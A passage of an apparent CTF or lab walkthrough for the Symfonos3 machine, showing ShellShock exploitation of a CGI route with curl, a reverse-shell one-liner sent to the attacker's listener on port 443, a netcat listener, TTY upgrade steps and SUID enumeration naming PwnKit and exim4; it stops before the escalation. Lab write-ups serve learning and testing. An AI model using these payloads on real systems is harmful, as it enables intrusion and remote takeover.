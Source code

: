 - and just like we spoke it has a vulnerability called ShellShock because we can see a command called uptime in this route.

```bash
❯ curl -s -X GET "http://192.168.100.61/cgi-bin/underworld/"
 10:24:25 up  2:04,  0 users,  load average: 0.02, 1.15, 1.22
 ```
 
 ## Gaining Access
 

let's take an advantage of ```shellShock```, using echo + the vulnerability,because something does not work without echo.

```
curl -s -X GET "http://192.168.100.61/cgi-bin/underworld/" -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
cerberus
```
so if we are able to execute commands let's make a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) here's a list of it if you don't how to make it.

```
❯ curl -s -X GET "http://192.168.100.61/cgi-bin/underworld/" -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/192.168.100.53/443 0>&1"
```


and on your own machine you have to stay hearing on port 443  ```nc -nlvp 443```, in order to make the connection successfully.

## Privilage Escalation

now that we gain access we have to do the treatment of the TTY because if we don't do it, we will be unable to execute shorcuts such as CTRL + C or CTRL + L or the stty size
let's make it ! press enter to go back to your reverse shell.
first we need to execute this script.

- ```-script /dev/null -c bash``` : change the value of the TTY.
- ```-Ctrl + z``` : end  the session of our reverse shell (for a while).
- ```-stty raw -echo;fg```: from our machine we have to change it.
- ```-export TERM=xterm```: change the value of the XTERM.
- ```-stty size```: now you have to verify your rows and columns from your personal desktop. in order to replace them in your reverse shell.
- ```-stty size```: verify you rows and columns.
- ```-stty rows {} columns {}```: change your rows and columns.

Let's find SUID permissions.

```bash
cerberus@symfonos3:/$ find \-perm -4000 -user root 2>dev/null
./usr/sbin/exim4
./usr/bin/newgrp
./usr/bin/chsh
./usr/bin/pkexec
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/passwd
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./bin/umount
./bin/mount
./bin/ping
./bin/su
```
seems that we can take root from pkexec we can use the pwnkid exploit  or the exim4.
but we will explote another pontetial way.